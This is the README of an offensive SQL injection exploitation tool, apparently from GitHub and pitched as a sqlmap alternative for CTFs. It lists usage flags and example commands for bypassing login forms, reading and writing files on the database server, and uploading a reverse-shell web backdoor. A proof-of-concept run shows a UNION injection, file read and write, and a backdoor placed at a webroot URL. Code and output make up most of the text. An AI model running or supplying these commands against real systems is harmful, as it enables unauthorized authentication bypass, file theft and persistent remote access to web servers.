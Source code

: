 
```
#####  ____   ____   ____   ____ _     _       _              _ 
##### |  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
##### | |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
##### |  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
##### |_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
#####        \____/ \_\/_/                                      
```

##### Find all scripts in: https://github.com/roughiz


##### SQLI script by R0()Gh1z
# -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

# sql_injection
A sql injection scan and exploit script

This script can be used if you can't use sqlmap, or for any restriction like wih some ctfs.

It scan if a parameter is injectable , and also find how to exploit it.

## Functions:

##### . Scan
##### . Bypass a blind authentication Form with return message (true,false)
##### . Found an injection
##### . Define a startsWith of an injection
##### . Use of proxy to debug
##### . Read a file from the DBMS
##### . Write a file into the DBMS
##### . Upload a reverse shell into the DBMS 


## Use

```
usage: sql_injection [-h] --data DATA [-m METHOD] [--file-dest REMOTEPAH]
                     [--file-write LOCALPATH] [--file-read PATHTOREAD]
                     [--upload-revshell REVSHELLPATH] [-H HEADER] [-c COOKIES]
                     -u URL -p PARAMETER [-ns BYPASS] [-s FOUND] [-l LEVEL]
                     [--prefix PREFIX] [--proxy] [-v]

A sql injection scan and exploit script

optional arguments:
  -h, --help            show this help message and exit
  --data DATA           Data string to be sent through POST/GET Like
                        "category=2&productId=1&productName=name"
  -m METHOD, --method METHOD
                        Htp method to use for injection, set to POST by
                        default
  --file-dest REMOTEPAH
                        Back-end DBMS absolute filepath to write to
  --file-write LOCALPATH
                        Write a local file on the back-end DBMS file system
  --file-read PATHTOREAD
                        Read a local file on the back-end DBMS file system
  --upload-revshell REVSHELLPATH
                        Upload a rev shell in the host. The script verify if
                        rev-shell is accessible from outside
  -H HEADER             One or multiple header for the request, separate with
                        a space Use like 'key1:value1 key2:value2'
  -c COOKIES, --cookies COOKIES
                        One or multiple cookies values for the request,
                        separate with a space Use like 'PHPSESSID=shuv7rnuv
                        UserToken=yes'
  -u URL, --url URL     The url to use for sqli
  -p PARAMETER, --parameter PARAMETER
                        The injectable parameter
  -ns BYPASS, --not-string BYPASS
                        Define the failed login message. Script try sqli until
                        this string is not in the request output
  -s FOUND, --string FOUND
                        Define the successfully login message. Script try sqli
                        until the string is in the request output
  -l LEVEL, --level LEVEL
                        The level of the scan (l|h) "l" for little, and "h"
                        for huge
  --prefix PREFIX       Define a prefix variable for the sqli. Per example "1
                        "
  --proxy               Use a default proxy at "127.0.0.1:8080". set to False
                        by default
  -v, --verbose         Define verbose output. set to False by default
```

## Examples

#### Bypass a form authetication returning a text when false

```
$ sql_injection -u http://host/index.php --data "username=admin&password=admin" -p username -ns "Your Login Name or Password is invalid" 
```

#### Bypass a form authetication returning a text when true

```
$ sql_injection -u http://host/index.php --data "username=admin&password=admin" -p username -s "Success" 
```

#### Found an injection

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId 
```

#### Found an injection with verbose mode and also using a local proxy

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId -v --proxy
```
#### Read a file from the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-read "C:/Inetpub/wwwroot/view_product.php"
```

#### Write a file into the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-write /tmp/output.txt --file-dest "/InetPub/wwwroot/test.txt"
```

#### Upload a reverse shell into the DBMS 

```
$ sql_injection -u http://10.10.10.10:8080/complain/view.php -m GET -H "Agent:roughiz" --data "mod=admin&view=repod&id=plans" -p id  --cookie "PHPSESSID=9cc97jn016e2naklhp4rnj64j0"  --upload-revshell shell_cmd.php
```

## Poc

```
$ sql_injection -u http://box/view_product.php -H "X-Forwarded-For:192.168.1.2 Agent:roughiz" --data "productId=1" -p productId  --file-write test.txt --file-dest "C:/Inetpub/wwwroot/uploads/test.txt" --file-read "/Inetpub/wwwroot/cx3iSfa2OwsY.php"  --upload-revshell ./shell_cmd.php

[SQLI] The parameter "productId" is injectable
[SQLI] Blind injection use code error to analyse injection
[Exploit] Found a sqli injection: -8408 UNION ALL SELECT CONCAT(0x716a6b6a54,0x57795a66454142,0x5562626b71)#
[Exploit] The Head: (-8408 UNION ALL SELECT  ) and the comment char: (#)
[Upload] Upload a file through sqli
Do you want confirmation that the file 'test.txt' has been successfully written on the backend file system ('C:/Inetpub/wwwroot/uploads/test.txt')?. 'No' by default: [y/n] y
[Upload] File has been successfully written on the backend 
[Upload] File verification: the local file "test.txt" and the remote file "C:/Inetpub/wwwroot/uploads/test.txt" have the same size (74 B)
[Read] The file "/Inetpub/wwwroot/cx3iSfa2OwsY.php" exists and it has the size (74 B)
[Read] File readed successfully, it will be saved at he path: "/tmp/lJ6iu9Kp__Inetpub_wwwroot_cx3iSfa2OwsY.php" 
[Reverse Shell Upload] Upload a reverse shell file through sqli
[INFO] Going to use a web backdoor to establish the tunnel
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 
[Reverse Shell Upload] Define destination directory path
what do you want to use for writable directory?
[1] Define a locations(s) path(s)
[2] Brute force search (default)
> 2
[Reverse Shell Upload] Define the DBMS server architecture
Choose the DBMS architecture?
[1] Windows
[2] Linux
[3] All (default)
> 1
[Reverse Shell Upload] The script found 1 url(s)
[URL] Try your reverse shell in the url: http://box/adbVypBUZZ9n.php uploaded in the DBMS path "/Inetpub/wwwroot/adbVypBUZZ9n.php"
```

